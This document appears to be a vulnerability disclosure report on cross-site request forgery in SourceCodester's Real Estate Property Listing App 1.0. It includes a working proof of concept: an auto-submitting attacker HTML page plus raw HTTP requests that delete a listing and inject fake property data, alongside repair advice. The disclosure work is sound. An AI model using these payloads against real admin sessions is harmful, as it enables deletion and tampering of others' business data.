



# SourceCodester Real Estate Property Listing App 1.0 /admin/property.php?delete= Cross-Site Request Forgery

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18526/real-estate-property-listing-app-using-php-and-mysql-source-code.html
- https://www.sourcecodester.com/download-code?nid=18526

## Overview

- Real Estate Property Listing App (Using PHP and MySQL), version 1.0 (current public download, 2026-11), performs **every** state-changing administrator operation without any CSRF protection: there is no anti-CSRF token in any form, no `Origin`/`Referer` validation, and the session cookie is issued without `SameSite` or `HttpOnly` attributes. Property deletion is even implemented as a plain `GET` request (`/admin/property.php?delete=<id>`), so a single top-level navigation from an attacker-controlled page — the request type that default-cookie browsers always honor — silently deletes a listing; untokened POSTs create or modify properties and change/delete customer inquiries at will.

## Details

- Vulnerable files: `/admin/property.php`, `/admin/inquiries.php`
- Affected version: 1.0 (current public download, 2026-11)
- GET-based deletion — one navigable URL destroys a listing; no token, no referer check:

```php
// admin/property.php:59-66
// Handle delete
if (isset($_GET['delete'])) {
    $id = $_GET['delete'];
    $stmt = $pdo->prepare("DELETE FROM properties WHERE id = ?");
    $stmt->execute([$id]);

    header("Location: property.php?message=" . urlencode("Property deleted successfully!"));
    exit;
}
```

- Untokened POST state changes — the create/update handler at `admin/property.php:6-56` and the inquiry handlers at `admin/inquiries.php:6-15` (status update) and `admin/inquiries.php:18-25` (delete) read `$_POST`/`$_GET` directly. `grep -c "csrf\|token"` across the project returns zero matches.
- Cookie hardening absent — `config.php:2` calls `session_start()` with no cookie parameters, so the login response sets:

```
Set-Cookie: PHPSESSID=4qnojptuvtl24dsublmbf563b0; path=/
```

  — no `HttpOnly`, no `SameSite` attribute.

## Description

- A victim administrator who, while logged in, visits any attacker-controlled web page can have their listings deleted, attacker-chosen property data (title, price, owner contact) injected into the public catalog, inquiry records deleted, and inquiry statuses rewritten — all without any interaction beyond page load. In the product's real use case (a real-estate agency), an attacker can sabotage the catalog (delete every listing via a loop of `?delete=N` requests or rewrite prices/contact details) or erase leads (customer inquiries), directly damaging the business. Because deletion is GET-based, the attack survives default browser cookie policies (top-level GET navigation always carries `SameSite=Lax` cookies), and browsers that send cookies lacking a `SameSite` attribute cross-site (e.g. Firefox) extend the attack to the POST endpoints as well.

## PoC

- Attacker page hosted on a different origin (`http://127.0.0.1:8199/csrf_attack.html`) auto-submits two forms at the victim's admin session on `http://127.0.0.1:8144`:

```html
<form id="f1" method="GET" action="http://127.0.0.1:8144/admin/property.php?delete=3" target="csrfframe">
  <input type="hidden" name="delete" value="3">
</form>
<form id="f2" method="POST" action="http://127.0.0.1:8144/admin/property.php" target="csrfframe">
  <input type="hidden" name="id" value="">
  <input type="hidden" name="title" value="CSRF-Injected Property">
  <input type="hidden" name="price" value="1">
  <input type="hidden" name="location" value="Attacker Land">
  <input type="hidden" name="owner_name" value="Remote Attacker">
  <input type="hidden" name="owner_contact" value="attacker@evil.local">
  <input type="hidden" name="bedrooms" value="3">
  <input type="hidden" name="bathrooms" value="2">
  <input type="hidden" name="area_sqft" value="100">
  <input type="hidden" name="property_type" value="house">
  <input type="hidden" name="status" value="available">
</form>
<script>
  document.getElementById('f1').submit();
  setTimeout(function () { document.getElementById('f2').submit(); }, 1500);
</script>
```

- Request #1 fired by the page (victim session cookie attached automatically by the browser):

```
GET /admin/property.php?delete=3 HTTP/1.1
Host: 127.0.0.1:8144
Cookie: PHPSESSID=<victim admin session>

HTTP/1.1 302 Found
Location: property.php?message=Property+deleted+successfully%21
```

- Request #2 (same page, 1.5 s later):

```
POST /admin/property.php HTTP/1.1
Host: 127.0.0.1:8144
Cookie: PHPSESSID=<victim admin session>
Content-Type: application/x-www-form-urlencoded

id=&title=CSRF-Injected+Property&description=...&price=1&location=Attacker+Land&owner_name=Remote+Attacker&owner_contact=attacker@evil.local&bedrooms=3&bathrooms=2&area_sqft=100&property_type=house&status=available

HTTP/1.1 302 Found
Location: property.php?message=Property+added+successfully%21
```

- Result verified inside the victim's own browser session: the admin listing page shows **"Property added successfully!"**, the new row **"CSRF-Injected Property" ($1, Attacker Land)**, and seed listing **#3 "Beachfront Villa with Ocean Views" is gone**.

## Payload

```
GET  /admin/property.php?delete=3
POST /admin/property.php  body: id=&title=CSRF-Injected+Property&...&status=available
```
(Identical patterns work for `/admin/inquiries.php` POST `update_status`/`inquiry_id`/`status` and GET `?delete=<inquiry_id>`.)

## Screenshot: before — victim's listing with seed property #3 present



## Screenshot: attacker page fired — the victim's own admin session answering inside the attacker's iframe

The red-bordered iframe is rendered by the victim administrator's session at `127.0.0.1:8144` while the top page is the attacker's origin `127.0.0.1:8199` — "Property added successfully!" is the app confirming the CSRF-injected INSERT.



## Screenshot: after — listing #3 deleted, CSRF-injected row present



Full evidence log: `poc/F02-csrf.txt` (curl session reproducing both tokenless requests and their 302 responses, cookie attribute analysis) and the browser demo above.

## Suggested repair

1. **Anti-CSRF tokens:** generate a per-session token, embed it in every admin form, and verify it server-side before any state change (`hash_equals()` on compare) — this is the primary fix for the POST handlers at `admin/property.php:6-56` and `admin/inquiries.php:6-25`.
2. **Stop using GET for destructive actions:** convert `?delete=` handling (`admin/property.php:59-66`, `admin/inquiries.php:18-25`) to POST with token verification, and reject any state-changing request whose `Origin`/`Referer` is not the application itself.
3. **Harden the session cookie:** issue cookies with `HttpOnly`, `SameSite=Lax` (or `Strict`) and `Secure` in production (`session_set_cookie_params([... ])` before `session_start()` at `config.php:2`).
4. **Re-authentication and audit:** require password re-entry for destructive bulk operations and log all listing/inquiry mutations with timestamp + session identifier so CSRF-driven changes can be traced.

## Dedup note

- NVD: the only CVE for this product is CVE-2025-14530 — unrestricted upload of the `image` argument in `/admin/property.php` (checked 2026-11-09). This finding is a different vulnerability type (CWE-352) on different parameters/actions (`delete`/create/update, not the image upload) — same file but entirely separate code paths → release.
- VulDB: single entry VDB-335871 (= CVE-2025-14530, the upload issue); no CSRF entry exists for this product.
